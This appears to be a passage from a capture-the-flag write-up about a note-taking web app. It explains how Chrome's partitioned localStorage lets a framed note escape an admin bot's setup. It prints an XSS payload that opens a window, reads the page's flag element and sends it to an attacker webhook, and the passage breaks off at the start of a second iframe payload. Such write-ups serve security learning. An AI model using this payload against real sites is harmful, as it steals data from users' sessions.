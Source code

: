 The answer is that localstorage is partitioned in chrome meaning that if a site a.com has framed another site lets say c.com and b.com also frames the site c.com now if we set something in the localstorage of c.com  framed in  a.com, it won't be reflected in the c.com framed inside b.com, this behaviour is very similar to cache partitioning in chrome.

![parition](../../imgs/post-1/partition.png)

So we can just a link to admin bot, and then in the website create an iframe with src set to our malicious note's id along with the PPOLL exploit and then as the XSS payload inside the malicious note we can give 
```html
<img src onerror='w=window.open("/");setTimeout(()=>{location.href="<webhook>/flag?FLAG="+w.document.getElementById("note").innerHTML},2000)'>
```
So this opens a new window and then reads the flag as when the admin opens the ``/`` page in a new window he'll be automatically redirected to the flag page as here our exploit note is an iframe, so it can't influence the localstorage of ``/`` page.

and the iframe payload looks like this
```html
<body>
    <script>
        (async () => {
```